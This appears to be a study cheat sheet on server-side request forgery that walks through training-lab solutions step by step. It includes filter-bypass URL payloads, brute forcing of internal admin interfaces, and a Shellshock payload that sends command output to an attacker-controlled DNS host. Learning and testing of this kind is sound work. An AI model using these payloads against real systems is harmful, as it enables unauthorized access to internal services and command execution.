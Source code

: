 # SERVER-SIDE REQUEST FORGERY
SSRF is a web security vulnerability that allows an attacke to induce the server-side application to make requests to an unintended location

## Summary
* [Finding hidden attack surface](#finding-hidden-attack-surface-for-ssrf-vulnerability)
* [Bypassing common SSRF defenses](#bypassing-common-ssrf-defenses)
	* [Bypassing blacklist-based input filters](#bypassing-blacklist-based-input-filters)
	* [Bypassing whitelist-based input filters](#bypassing-whitelist-based-input-filters)
	* [Bypassing SSRF filters via open redirect](#bypassing-ssrf-filters-via-open-redirection)
	* [Basic SSRF againts the local server](#basic-ssrf-againts-the-local-server)
	* [Basic SSRF againts another back-end system](#basic-ssrf-againts-another-back-end-system)
* [Bypassing blind SSRF filters](#bypassing-blind-ssrf-filters)
	* [Blind SSRF with out-of-band detection](#blind-ssrf-with-out-of-band-detection)
	* [Blind SSRF with Shellshock exploitation](#blind-ssrf-with-shellshock-exploitation)

### Finding hidden attack surface for SSRF vulnerability
```
> partial URLs in requests
> URLs within data formats
> SSRF via the referer header
```

## Bypassing common SSRF defenses
### Bypassing blacklist-based input filters
```
> 127.1
> registering own domain name that resolves to 127.0.0.1
> Obfuscating blocked strings using URL encoding or case variation
```
See below examples:
```
> assume that an application lets the users to check for the item's stock
> Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
> Change the URL in the stockApi parameter to http://127.0.0.1/ and observe that the request is blocked.
> Bypass the block by changing the URL to: http://127.1/
> Change the URL to http://127.1/admin and observe that the URL is blocked again.
> Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user.
```

### Bypassing whitelist-based input filters
```
> embed credentials in a URL before the hostname
	# http://expected-host@evil-host
> indicate a URL fragment
	# http://evil-host#expected-host
> leverage the DNS naming hierarchy
	# http://expected-host.evil-host
> URL-encode characters to confuse the URL-parsing code
```
See below examples:
```
> assume that an application lets the users to check for the item's stock
> Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
> Change the URL in the stockApi parameter to http://127.0.0.1/ and observe that the application is parsing the URL, extracting the hostname, and validating it against a whitelist.
> Change the URL to http://username@stock.weliketoshop.net/ and observe that this is accepted, indicating that the URL parser supports embedded credentials.
> Append a # to the username and observe that the URL is now rejected.
> Double-URL encode the # to %2523 and observe the extremely suspicious "Internal Server Error" response, indicating that the server may have attempted to connect to "username".
> To access the admin interface and delete the target user, change the URL to: http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

### Bypassing SSRF filters via open redirection
```
> assume that an application lets the users to check for the item's stock
> Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
> try tampering with the stockApi parameter and observe that it is not possible to make the server request directly to a different host
> in the application, click "next product" and observe that the path parameter is placed into the Location header of a redirection response, resulting in an open redirection
> create a URL that exploits the open redirection vulnerability and redirects to the admin interface in the back-end system
> stockApi=/product/nextProduct?currentProductId=19&path=http://192.168.0.12:8080/admin
> observe that the stock checker follows the redirection and shows you the admin page
```

### Basic SSRF againts the local server
```
> assume that an application lets the users to check for the item's stock
> when a user views the stock status for an item, their browser makes a request like this
> stockAPI=http://stock.com/product/stock/check?productId=1&storeId=22
> an attacker can exploit this vulnerability by simply changing the stockAPI URL into their intended URL for example http://localhost/admin
> in normal situation, the attacker could just visit the /admin URL directly but normally, the /admin page is only accessible to authenticated users
> however if the request to the /admin page URL comes from the local machine itself, the normal access controls are bypassed
```

### Basic SSRF againts another back-end system
```
> assume that an application lets the users to check for the item's stock
> suppose there is an administrative interface at the back-end URL
> http://192.x.x.x/admin
> in normal situation, an attacker would not know what the back-end URL is, so they will have to bruteforce each octets
> submit a request to check for the item's stock and send the request to Burp Intruder to brute force the back-end URL
> change the stockAPI parameter value
> http://192.168.0.1:8080/admin
> clear the payload positions and add a new one on the final octet of the IP address
> change the payload type to Numbers and enter 1,255 and 1 in the "From" and "To" and "Step" boxes respectively and start the attack.
> you should see a single entry with a status of 200, showing an admin interface. 
> right click on this request, send it to Burp Repeater, and change the URL in the stockApi to: http://192.168.0.173/admin/delete?username=carlos
```

## BYPASSING BLIND SSRF FILTERS
### Blind SSRF with out-of-band detection
```
> assume a website uses analytics software which fetches the URL specified in the Referer header
> in Burp Suite, go the the Burp menu and launch the Burp Collaborator client
> click "copy to clipboard" to copy a unique Burp Collaborator payload
> visit a product and send the request to Burp Repeater
> change the Referer header to use the generated Burp Collaborator domain in place of the original domain then send the request
> in Burp Collaborator client window, click "Poll now" and you should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
```

### Blind SSRF with Shellshock exploitation
```
> In Burp Suite Professional, install the "Collaborator Everywhere" extension from the BApp Store.
> Add the domain of the lab to Burp Suite's target scope, so that Collaborator Everywhere will target it.
> Browse the site.
> Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header.
> Observe that the HTTP interaction contains your User-Agent string within the HTTP request.
> Send the request for the product page to Burp Intruder.
> Use Burp Collaborator client to generate a unique Burp Collaborator payload, and place this into the following Shellshock payload:
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
> Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
> Click "Clear §", change the Referer header to http://192.168.0.1:8080 then highlight the final octet of the IP address (1), click "Add §".
> Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
> Click "Start attack".
> When the attack is finished, go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind SSRF attack. The name of the OS user should appear within the DNS subdomain.
```
